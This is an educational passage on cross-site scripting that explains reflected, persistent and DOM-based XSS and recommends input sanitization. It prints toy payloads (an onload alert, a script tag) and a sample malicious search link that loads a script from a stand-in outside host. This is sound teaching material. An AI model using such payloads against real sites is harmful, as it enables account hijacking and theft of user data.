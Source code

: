 A malicious user can execute in this way different kinds of scripts, for example
```html
<body onload=alert("you got hacked")>;
  ```
  or 
  ```html
  <script>destroy_website();</script>
  ```


The best defense against XSS vulnerabilities is to remove or disable any markup that can potentially contain instructions to run the code. For HTML this includes elements, such as `<script>`, `<object>`, `<embed>`, and `<link>`.

The process of modifying user data so that it can't be used to run scripts or otherwise affect the execution of server code is known as input `sanitization`. Many web frameworks automatically sanitize user input from HTML forms by default.



### A reflected XSS vulnerability 

Occurs when user content that is passed to the server is returned immediately and unmodified for display in the browser. Any scripts in the original user content will be run when the new page is loaded. For example, consider a site search function where the search terms are encoded as URL parameters, and these terms are displayed along with the results. An attacker can construct a search link that contains a malicious script as a parameter 
``` 
http://developer.mozilla.org?q=beer<script%20src="http://example.com/tricky.js"></script>)
``` 
and email it to another user. If the target user clicks this "interesting link", the script will be executed when the search results are displayed. As discussed earlier, this gives the attacker all the information they need to enter the site as the target user, potentially making purchases as the user or sharing their contact information.


A question. Imagine a logging system that in case of error displays the provided username along with information that it is wrong. Is this a safe solution?


### A persistent XSS vulnerability 

Occurs when the malicious script is stored on the website and then later redisplayed unmodified for other users to execute unwittingly. For example, a discussion board that accepts comments that contain unmodified HTML could store a malicious script from an attacker. When the comments are displayed, the script is executed and can send to the attacker the information required to access the user's account. This sort of attack is extremely popular and powerful, because the attacker might not even have any direct engagement with the victims.


### DOM XSS

This type of attack occurs when the DOM environment is being changed, but the client-side code does not change. DOM-based XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source (a source is a JavaScript property that accepts data that is potentially attacker-controlled) such as the URL, and passes it to a sink (a sink is a potentially dangerous JavaScript function or DOM object that can cause undesirable effects if attacker-controlled data is passed to it) that supports dynamic code execution, such as `eval()` or `innerHTML`. This enables attackers to execute malicious JavaScript, which typically allows them to hijack other users' accounts.

